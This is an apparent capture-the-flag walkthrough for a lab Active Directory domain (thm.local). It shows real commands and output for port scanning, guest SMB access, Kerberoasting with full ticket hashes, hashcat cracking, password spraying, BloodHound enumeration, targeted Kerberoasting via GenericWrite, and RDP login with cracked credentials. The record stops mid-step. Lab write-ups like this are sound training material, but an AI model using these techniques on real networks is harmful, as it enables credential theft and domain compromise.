Operation Endgame


STEP I: Start the machine and using nmap scan the all ports

└─$ nmap -sC -sV -A -p- 10.49.130.64
```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-07 12:38 -0500
Nmap scan report for 10.49.130.64
Host is up (0.065s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-03-07 17:40:06Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
|_ssl-date: 2026-03-07T17:42:24+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=ad.thm.local
| Not valid before: 2026-03-06T17:34:40
|_Not valid after:  2026-09-05T17:34:40
|_ssl-date: 2026-03-07T17:42:24+00:00; 0s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf            .NET Message Framing
47001/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc             Microsoft Windows RPC
49665/tcp open  msrpc             Microsoft Windows RPC
49666/tcp open  msrpc             Microsoft Windows RPC
49667/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  msrpc             Microsoft Windows RPC
49670/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc             Microsoft Windows RPC
49675/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49685/tcp open  msrpc             Microsoft Windows RPC
49712/tcp open  msrpc             Microsoft Windows RPC
49718/tcp open  msrpc             Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```
STEP II: From here we find many running services but from port 80,88,135,139,389,443,3269,3268,3389 we get domain and subdomain so we will add it in /etc/hosts

```bash
sudo nano /etc/hosts

10.49.130.64    ad.thm.local thm.local
```
STEP III: Now we will use smbclient for finding shared folders
```bash
└─$ smbclient -L //10.49.130.64 -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```
Here we use found many default shared folders

```bash
└─$ crackmapexec smb 10.49.130.64 -u guest -p ''
SMB      10.49.130.64    445    AD      [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:False)
SMB      10.49.130.64    445    AD      [+] thm.local\guest:
```
Here, we found this is a running Active Directory domain controller (Windows Server 2019 build 17763) in the domain thm.local, hostname AD, and guest/null sessions are allowed (guest: with blank password succeeds).

SMB shares are standard for a DC (ADMIN,C , C ,C, IPC$, NETLOGON, SYSVOL), and nothing extra is visible anonymously — no custom shares leaking files yet.

STEP IV: From here we will use kerberoastable accounts with guest
```bash
└─$ netexec ldap 10.49.130.64 -u guest -p '' --kerberoast output.txt
LDAP        10.49.130.64    389    AD               [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.49.130.64    389    AD               [+] thm.local\guest: 
LDAP        10.49.130.64    389    AD               [*] Total of records returned 1
LDAP        10.49.130.64    389    AD               [*] sAMAccountName: CODY_ROY, memberOf: CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local, pwdLastSet: 2024-05-10 10:06:07.611965, lastLogon: 2024-04-24 11:41:18.970113
LDAP        10.49.130.64    389    AD               $krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local\CODY_ROY*$a5ebc167719d7cf5203bbfde9eb77d72$605c459fb88ea338550c4d6c50117f836afc1d7c4bcc2083ffc2cc5cc4f605053cac8f89bded28ff277edbad9898d1b79a99cb720c1797bcfc5a8c1581244b8194ff87142ec2e8b2b7ac8bf43c550f8841be4ed1b2c3b7d3e0838053bc1cecdb622327db87af24e2ee751cfd02091f21bbe522013859b4c7c84d08b6ee88527a0e55271cbd2db5d9ca3fc28a01518e5da28ff5c1f21d6bb6962169504517b7415ff90689d9493e192b8b5d584e8098cbd72b57c70e46a653a93a746389d7eca5a75764372bde6daf47876aec08f796e858a38edc6e30b65f0f36811b1e369f2734a322bfe4bd3ad9cabcec82c25d3778ac852cc8bb98bb473cff4f0c7447f1d9ac09a8ed0e97f3dafea466321fd152b529a5ca81aaa8618a5365332d61b9a1eb92499ca9e986ce77d623da5d054e27da46a8a62df944267f32006db1c22feba3bb064da4f358dd1609bd169e732e212e81ace3c6abc028eb9e04dc9bbe7d8c6779856549dfe91b205531a4ac830ed30a37c78df9a7a770b2826b6d7b243f77a13d0c9d15ff87f84ea83f08167726f5bd730ebcb2aaa880fe48116100c43ec0eabf80b1adca3bdf1d96ac949af5b33446e55a6a931503e8a0dccf6135864137d8503583aa0866ade475d9a946c08995613a660c4053662a09d131c3b91cf5f5180506bcd987c1b4d76ab785710bbb52735a235f6f64771bbef0643073924ce1ad4e19cc99126bcfcb264717d73201ac9b99887e27f2d79891e4bc4e9f3f9ba761b4c18a79a6c9f9ac5a53062a57c7fd62b9ce02ee5995f4f31b943c4b298a09945c46737c53d03a8342c360b59e7928c05981e7c90f9f99c6a1de77ef1dd1253be2314c82cee3474ca2ba8ef660fc7c635ff00c63d9f0ceb7d1537122cbc51fd7ba99ad12d6caf02c8aca05f5fedff1fdb12e48a0f0e6bf4550b7cf15bf72d5505bc94ffcd4ba20ae8978736935e049234156cdf64f94a24544c4d9aafd1fbbc5a5bcd59a33bf602233564d1d29bb3efda0382b1e912eaa93fc97de9810fe7c44225ce61889c10a4a10904af7862141ab498d3e4eb89f3b12ac42d04eccd11963b283d8278a3b616c0175857369cb124cec7bca13f951c53d0e7194a8cc3ec3daa939ec547ab3ab6f9005bf2e3245a5f60d12c58e4dd92fe4713e97810b3c23cea563316bf20a8c7b0f6b04e8fd472344ec30d5a4c9a8f9c4a97af2f5f69f2a14fc0e0ef3f3413e33de7d065380fcbbfa75d6c80158c66e6a951068d9b2b11e4b5e6b5c4738d8bfd42dc02763a81fd737a816378d2f78f3506afbf170763c3a1ed11234dab43afd5d9b7760a47892a2facb2936199ba41c625849cec3ed60709a065a922ad9d7d004b92769ded467fb960ce11d32e89f40ed15d38dd999dda2    
```

STEP V: Now we will save this hash in a file and try to crack it
```bash
echo '$krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local\CODY_ROY*$a5ebc167719d7cf5203bbfde9eb77d72$605c459fb88ea338550c4d6c50117f836afc1d7c4bcc2083ffc2cc5cc4f605053cac8f89bded28ff277edbad9898d1b79a99cb720c1797bcfc5a8c1581244b8194ff87142ec2e8b2b7ac8bf43c550f8841be4ed1b2c3b7d3e0838053bc1cecdb622327db87af24e2ee751cfd02091f21bbe522013859b4c7c84d08b6ee88527a0e55271cbd2db5d9ca3fc28a01518e5da28ff5c1f21d6bb6962169504517b7415ff90689d9493e192b8b5d584e8098cbd72b57c70e46a653a93a746389d7eca5a75764372bde6daf47876aec08f796e858a38edc6e30b65f0f36811b1e369f2734a322bfe4bd3ad9cabcec82c25d3778ac852cc8bb98bb473cff4f0c7447f1d9ac09a8ed0e97f3dafea466321fd152b529a5ca81aaa8618a5365332d61b9a1eb92499ca9e986ce77d623da5d054e27da46a8a62df944267f32006db1c22feba3bb064da4f358dd1609bd169e732e212e81ace3c6abc028eb9e04dc9bbe7d8c6779856549dfe91b205531a4ac830ed30a37c78df9a7a770b2826b6d7b243f77a13d0c9d15ff87f84ea83f08167726f5bd730ebcb2aaa880fe48116100c43ec0eabf80b1adca3bdf1d96ac949af5b33446e55a6a931503e8a0dccf6135864137d8503583aa0866ade475d9a946c08995613a660c4053662a09d131c3b91cf5f5180506bcd987c1b4d76ab785710bbb52735a235f6f64771bbef0643073924ce1ad4e19cc99126bcfcb264717d73201ac9b99887e27f2d79891e4bc4e9f3f9ba761b4c18a79a6c9f9ac5a53062a57c7fd62b9ce02ee5995f4f31b943c4b298a09945c46737c53d03a8342c360b59e7928c05981e7c90f9f99c6a1de77ef1dd1253be2314c82cee3474ca2ba8ef660fc7c635ff00c63d9f0ceb7d1537122cbc51fd7ba99ad12d6caf02c8aca05f5fedff1fdb12e48a0f0e6bf4550b7cf15bf72d5505bc94ffcd4ba20ae8978736935e049234156cdf64f94a24544c4d9aafd1fbbc5a5bcd59a33bf602233564d1d29bb3efda0382b1e912eaa93fc97de9810fe7c44225ce61889c10a4a10904af7862141ab498d3e4eb89f3b12ac42d04eccd11963b283d8278a3b616c0175857369cb124cec7bca13f951c53d0e7194a8cc3ec3daa939ec547ab3ab6f9005bf2e3245a5f60d12c58e4dd92fe4713e97810b3c23cea563316bf20a8c7b0f6b04e8fd472344ec30d5a4c9a8f9c4a97af2f5f69f2a14fc0e0ef3f3413e33de7d065380fcbbfa75d6c80158c66e6a951068d9b2b11e4b5e6b5c4738d8bfd42dc02763a81fd737a816378d2f78f3506afbf170763c3a1ed11234dab43afd5d9b7760a47892a2facb2936199ba41c625849cec3ed60709a065a922ad9d7d004b92769ded467fb960ce11d32e89f40ed15d38dd999dda2' > cody.hash
```

Now using hashcat

```bash
└─$ hashcat -m 13100 cody.hash /usr/share/wordlists/rockyou.txt   
hashcat (v7.1.2) starting
--------------------------------------------------------------------

--<hash>----67fb960ce11d32e89f40ed15d38dd999dda2:MKO)mko0
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local\CODY_ROY*...99dda2
Time.Started.....: Sun Mar  8 03:19:19 2026 (1 sec)
```

STEP VI: We got the credentials for CODY_ROY so we will try to login
```bash
└─$ netexec smb ad.thm.local -u CODY_ROY -p 'MKO)mko0' --shares
SMB         10.49.130.64    445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                               
SMB         10.49.130.64    445    AD               [+] thm.local\CODY_ROY:MKO)mko0
SMB         10.49.130.64    445    AD               [*] Enumerated shares
SMB         10.49.130.64    445    AD               Share           Permissions     Remark                                                                            
SMB         10.49.130.64    445    AD               -----           -----------     ------                                                                            
SMB         10.49.130.64    445    AD               ADMIN$                          Remote Admin                                                                      
SMB         10.49.130.64    445    AD               C$                              Default share                                                                     
SMB         10.49.130.64    445    AD               IPC$            READ            Remote IPC                                                                        
SMB         10.49.130.64    445    AD               NETLOGON        READ            Logon server share                                                                
SMB         10.49.130.64    445    AD               SYSVOL          READ            Logon server share 
```
We successfully logged in and we also found the smb shares

STEP VII: Now we will enumerate all domain users with the new creds
```bash
netexec ldap ad.thm.local -u CODY_ROY -p 'MKO)mko0' --users | grep "LDAP" | awk '{print $5}' > users.txt
```

Above we stored all users in a file with filtering the usernames and now we will spray the password against the list of saved users so that we can findout the which user is uses same password

STEP VIII: Now we will use crackmapexec
```bash
└─$ crackmapexec smb ad.thm.local -u users.txt -p 'MKO)mko0' --continue-on-success
SMB         ad.thm.local    445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         ad.thm.local    445    AD               [+] thm.local\[*]:MKO)mko0 
SMB         ad.thm.local    445    AD               [+] thm.local\[+]:MKO)mko0 
SMB         ad.thm.local    445    AD               [+] thm.local\[*]:MKO)mko0 
SMB         ad.thm.local    445    AD               [+] thm.local\-Username-:MKO)mko0 
SMB         ad.thm.local    445    AD               [-] thm.local\Administrator:MKO)mko0 STATUS_LOGON_FAILURE
SMB         ad.thm.local    445    AD               [+] thm.local\CODY_ROY:MKO)mko0
SMB         ad.thm.local    445    AD               [+] thm.local\ZACHARY_HUNT:MKO)mko0
```

Note: Also we can use another tool “netexec”
```bash
netexec ldap ad.thm.local -u users.txt -p 'MKO)mko0' --continue-on-success
```
STEP IX: Now we will use bloodhound tool to collect Active Directory information from the domain thm.local and prepares it for analysis in BloodHound
```bash
└─$ bloodhound-python -u 'ZACHARY_HUNT@thm.local' -p 'MKO)mko0' -d thm.local -ns 10.49.130.64 -c All --zip 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: thm.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 490 users
INFO: Found 53 groups
INFO: Found 4 gpos
INFO: Found 216 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ad.thm.local
INFO: Done in 00M 33S
INFO: Compressing output into 20260308052157_bloodhound.zip
```
STEP X: Unzip that downloaded zip file
```bash
└─$ ls
20260308052157_bloodhound.zip  cody.hash  output.txt  users.txt
                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/Oper_End]
└─$ unzip 20260308052157_bloodhound.zip 
Archive:  20260308052157_bloodhound.zip
 extracting: 20260308052157_ous.json  
 extracting: 20260308052157_computers.json  
 extracting: 20260308052157_domains.json  
 extracting: 20260308052157_groups.json  
 extracting: 20260308052157_users.json  
 extracting: 20260308052157_containers.json  
 extracting: 20260308052157_gpos.json
```
STEP XI: Now install “neo4j” tool
```bash
└─$ sudo apt install neo4j
```

STEP XII: Run the neo4j tool through terminal
```bash
└─$ sudo neo4j console
```


After started neo4j move to the browser and type http://localhost:7474/browser/ and logged in with default credential user/pass : neo4j/neo4j



STEP XIII: Now we will use bloodhound in GUI mode so install first

```bash
└─$ sudo apt install bloodhound
```

Note: May be here you can get some error related to PostgreSQL so restart it or update then try it
```bash
└─$ bloodhound-setup                 

 [*] Starting PostgreSQL service

 [*] Creating Database
User _bloodhound already exists in PostgreSQL

 Creating database
ALTER ROLE

 [*] Starting neo4j
Neo4j is running at pid 123440

 [i] You need to change the default password for neo4j
     Default credentials are user:neo4j password:neo4j          #This should be change 

 [!] IMPORTANT: Once you have setup the new password, please update /etc/bhapi/bhapi.json with the new password before running bloodhound

 opening http://localhost:7474/
```

Now, update /etc/bhapi/bhapi.json file with neo4j new password
```bash
sudo nano /etc/bhapi/bhapi.json
```

STEP XIV: After update the password restart the service
```bash
└─$ sudo systemctl restart neo4j
Failed to restart neo4j.service: Unit neo4j.service not found.
                                                                                                                                                 
┌──(kali㉿kali)-[~/Downloads/Oper_End]
└─$ sudo neo4j restart
Stopping Neo4j....... stopped.
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:135769). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```
  
Now we will again run bloodhound and it will open in new link
```bash  
└─$ bloodhound

 Starting neo4j
Neo4j is running at pid 135769
...
 Bloodhound will start

 IMPORTANT: It will take time, please wait...
--------------------------------------------------------------------
-------------------------------------------------------------------
opening http://127.0.0.1:8080
```

It will open in browser by default so moved and logged in with default credentials admin/admin


After login it will show a upload file section so we will upload our unzip file

STEP XVI: Now open the search bar and search ZACHARY_HUNT@thm.local we found our user



After this, we will click on the node of the user (green icon) so we will see the right panel and it has all details related to this user. So, moved downword and we can see a “Outbound Object Control” option so click and we will see a new user



STEP XVII: From the above screenshot we can see that The ZACHARY_HUNT user has GenericWrite rights over the JERRI_LANCASTER user

STEP XVII: Now we will use a git repo “https://github.com/ShutdownRepo/targetedKerberoast.git” for collecting hash of JERRI_LANCASTER
```bash
└─$ git clone https://github.com/ShutdownRepo/targetedKerberoast.git
cd targetedKerberoast
```
```bash
└─$ python3 targetedKerberoast.py \
  -u ZACHARY_HUNT \
  -p 'MKO)mko0' \
  -d thm.local \
  --dc-ip 10.48.178.1 \
  --request-user JERRI_LANCASTER \
  -v
[*] Starting kerberoast attacks
[*] Attacking user (JERRI_LANCASTER)
[VERBOSE] SPN added successfully for (JERRI_LANCASTER)
[+] Printing hash for (JERRI_LANCASTER)
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$04df3debb7131df39463e78197d8a1ad$8b2107ea1c9956044610a9d3fdc90a1665b3cb9fad586cfaff428487093f5bfade6453f1247c50539c953cf03df88e2ea205aa5eac4be1ba835fd7e51ac7135207b9ca498ac61cc19ac43914e4dfc79b423055b9a8f1328207334009bbe950afa7545f8d532234569745fab9d4fb078a9e2a0adbb6dbc21f74ef827a61a2d85daa06e114f90c690f4e23d20f5437a26b3aaf09db01ab7058be225eefb378472b33df1fed215fc5c188073da3d2466b8f50375dbbb94c3a77dfa71ffec558f45b47ffe75be9c4e5d39f395c6e3858df52db1525d15408845b2a55113d1d17ec33c44ccd4a1a1f1390096ae890b06ddcd9dccd2bf79201ee5ac1295ed0b72801f3ebf60130fe3ca45edbbdb320989f85538513509a51da75be3533f5de4ad189b61276465ebcdb366d63b7173f646eb82f0026e1edb74ac08a35d570e15f9a0d5333d8240a1245cc07a39c69fb41e43cc199c32eab9ca630f19753e7ea900c82a636bbe0f1786ab2974e4026a43e91b05043a32dd6097da38c944ffd25f3c6bd0f0132a98e5fe375c409a9ff1a79b66f164b50db1ac3eff24f7e5836d978f9bda34db900751d53811642ea3b865ad65551e88cea4fa104e2127c7b22dd90fd32ddae42a2195c39e898d6c5fd41ad9c886e3083a5f44fe87b3f911449d346a8a314c3031f51f54e0b3b1ddc37589009233bf09d504eddd06563c8d2841189ab8c23645098326cdc59749adae89f21da16f7bf5a6e088e7fcd46941ebd09f440f45eedac46315b3c46cdf848c2c5985f5af3619cad48798b2a548d3d9a7d2b272909d0c169387dc0e91227b3622aea74b7065172198078116b62692270aaf64e41f3c6148f64f5bf9b45663183a54ca6eb127c190a608bb30fc6f47339f22940d2d5940dd70deae581aa48beb2d4533fe58a88ae78c003ae2515c181e8bb5e825094c24c7b0af3f22cc209d54a16300b7028608cb2f75b675bdec218efa98a815885ee2c4e3efe0b93b63cfeaefcead4ed8a56e3c0bf2f840e1055b1b5ce470d449aff16bd4a35628e29be0912996683356075252868ed68d8df5451aec25cce1afdc67d45397f0b9cb7d4c43a1d5ae6cb6913cab52cb7eb3af9d7ab32c22635a977dedc4c355c72ae83392c3f720abe542c719da88569aae61f635eaf90f1fabd01c32b5afa8b8b87a0e41c350cea9dc896a45f57b4453e9238c60528b8824d59d5f65958e1306392f8361cbd73dd9f74b51d6253d0ef8064335587d4ae66d676084c3a3a2563e208e462d53652871ad99b0c565fbd50d0a69c710c4f7e039f80a783e911a463de3c5acafa426359f76ee2322ca767b61e11c690693c7f3160951905b3a0b93e8ed93f2085c2a2fd9dd5e2753727d313a30ea9ad4dd3c7633b3010dc189e31714cd8916e394b6ea42023c0f3c6078d5e3d1ee967eb0e86aef15678d4b6c3063cf3466a344b6c481fd1f466c5d22e28d04ba1437b0aafaa990b0a65f01ad5a62c4fe87c412e9221e32bed36a55c5b4f6dc0
[VERBOSE] SPN removed successfully for (JERRI_LANCASTER)
```

STEP XVIII: Now save the hash in a file and crack it using hashcat or john the ripper


STEP XIX: Now we will try to get login

```bash
xfreerdp /u:JERRI_LANCASTER /p:'lovinlife!' /v:ad.thm.local /dynamic-resolution +clipboard /cert:ignore
```
We get logged into the system them open cmd and enemurate the directories




So in Scripts directory we get a .ps1 file so we try to read it



Here we can see a new user with username: “SANFORD_DAUGHERTY" and password: “RESET_ASAP123”

STEP XX: Now we try to login with these credentials
```bash
